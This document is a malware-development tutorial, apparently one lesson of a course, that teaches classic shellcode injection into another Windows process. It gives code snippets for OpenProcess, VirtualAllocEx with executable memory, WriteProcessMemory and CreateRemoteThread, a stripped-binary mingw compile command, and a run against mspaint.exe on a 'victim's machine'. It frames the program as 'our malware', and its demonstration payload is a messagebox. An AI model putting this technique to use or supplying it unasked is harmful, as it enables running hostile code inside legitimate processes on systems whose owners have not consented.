

# 03 - injection (shellcode)

Let’s talk about code injection. What is code injection? And why we do that?    

Code injection technique is a simply method when one process, in our case it’s our malware, inject code into another running process.     

In this practical example we will discuss about a classic technique which are payload injection using debugging API.    

So, let’s go to inject our payload to process. For example, messagebox payload.    
So, what you want is to pivot to a target process or in other words to make your payload executing somehow in another process on the same machine. For example in a `calc.exe`:    

    

The first thing is to allocates some memory inside your target process and the size of the buffer has to be at least of size of your payload:    

    

Then you copy your payload to the target process `calc.exe` into the allocated memory:    

    

and then "ask" the system to start executing your payload in a target process, which is `calc.exe`:    

   

So, let’s go to code this simple logic. Now the most popular combination to do this is using built-in Windows API functions which are implemented for debugging purposes. There are:    

VirtualAllocEx - [https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex):    

```cpp
LPVOID VirtualAllocEx(
  [in]           HANDLE hProcess,
  [in, optional] LPVOID lpAddress,
  [in]           SIZE_T dwSize,
  [in]           DWORD  flAllocationType,
  [in]           DWORD  flProtect
);
```

WriteProcessMemory - [https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory):    

```cpp
BOOL WriteProcessMemory(
  [in]  HANDLE  hProcess,
  [in]  LPVOID  lpBaseAddress,
  [in]  LPCVOID lpBuffer,
  [in]  SIZE_T  nSize,
  [out] SIZE_T  *lpNumberOfBytesWritten
);
```

CreateRemoteThread - [https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread):    

```cpp
HANDLE CreateRemoteThread(
  [in]  HANDLE                 hProcess,
  [in]  LPSECURITY_ATTRIBUTES  lpThreadAttributes,
  [in]  SIZE_T                 dwStackSize,
  [in]  LPTHREAD_START_ROUTINE lpStartAddress,
  [in]  LPVOID                 lpParameter,
  [in]  DWORD                  dwCreationFlags,
  [out] LPDWORD                lpThreadId
);
```

First you need to get the `PID` of the process, you could enter this `PID` yourself in our case. Next, open the process with `OpenProcess` - [https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess) function provided by Kernel32 library:     

```cpp
// parse process ID
printf("PID: %i", atoi(argv[1]));
ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
```

Next, we use `VirtualAllocEx` which is allows to you to allocate memory buffer for remote process:    

```cpp
// allocate memory buffer for remote process
rb = VirtualAllocEx(ph, NULL, sizeof(my_payload), (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
```

Then, `WriteProcessMemory` allows you to copy data between processes, so copy our payload to `calc.exe` process.     

```cpp
// "copy" data between processes
WriteProcessMemory(ph, rb, my_payload, sizeof(my_payload), NULL);
```

And `CreateRemoteThread` is similar to `CreateThread` function but in this function you can specify which process should start the new thread:   

```cpp
// our process start new thread
rt = CreateRemoteThread(ph, NULL, 0, (LPTHREAD_START_ROUTINE)rb, NULL, 0, NULL);
```

Let’s go to compile this code:    

```bash
x86_64-w64-mingw32-gcc hack.c -o hack.exe -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc
```

    

Let's go to inject our payload to `mspaint.exe`. Ok, first of all run it.       

Then run Process Hacker on our victim's machine:     

    

As we can see, the process ID of the `mspaint.exe` is `5412`.     

So, for injection run the following command:    

```powershell
.\hack.exe 5412
```

    

As we can see messagebox is popped up.    

For checking correctness of our injection let's go to investigate memory of our victim process:    

    

As we can see, everything is worked as expected!    

But, there is a caveat. Opening another process with write access is submitted to restrictions. One protection is Mandatory Integrity Control (MIC). MIC is a protection method to control access to objects based on their “Integrity level”.
There are 4 integrity levels:    
- *low level* - process which are restricted to access most of the system (internet explorer).    
- *medium level* - is the default for any process started by unprivileged users and also administrator users if UAC is enabled.    
- *high level* - process running with administrator privileges.    
- *system level* - by SYSTEM users, generally the level of system services and process requiring the highest protection.    